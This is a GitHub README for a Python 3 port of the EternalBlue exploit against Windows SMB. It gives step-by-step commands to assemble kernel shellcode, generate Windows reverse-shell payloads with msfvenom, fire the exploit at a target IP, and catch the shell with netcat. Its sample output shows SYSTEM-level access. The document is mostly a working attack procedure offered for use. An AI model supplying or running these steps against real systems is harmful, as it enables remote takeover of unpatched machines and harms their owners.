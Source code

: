 # EternalBlue-in-Python3

## How to use

### Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

### Compiling the shellcode(s)

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

### Create a Bin

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Exploit

```
python3 eternal-blue.py TARGET-IP final.bin
```

Open NC and wait the connection

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [0.0.0.0] from (UNKNOWN) [0.0.0.0] 49191
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

